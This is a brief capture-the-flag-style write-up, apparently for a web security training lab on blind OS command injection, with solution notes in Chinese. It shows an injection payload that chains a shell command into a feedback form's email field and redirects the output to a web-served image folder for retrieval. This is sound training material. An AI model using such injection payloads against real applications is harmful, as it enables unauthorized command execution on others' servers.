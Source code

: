 # Lab: Blind OS command injection with output redirection

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response. However, you can use output redirection to capture the output from the command. There is a writable folder at:
```
/var/www/images/
```
The application serves the images for the product catalog from this location. You can redirect the output from the injected command to a file in this folder, and then use the image loading URL to retrieve the contents of the file.

To solve the lab, execute the whoami command and retrieve the output.

## OS command injection
* 題目說要寫入 `/var/www/images/`，寫入的內容是 whoami
```
payload = 123@123.com||echo `whoami` > a.txt||
```
* 之後用 image 訪問就可以了
```
https://ace91f701f8674b9c02329b800c40097.web-security-academy.net/image?filename=a.txt
```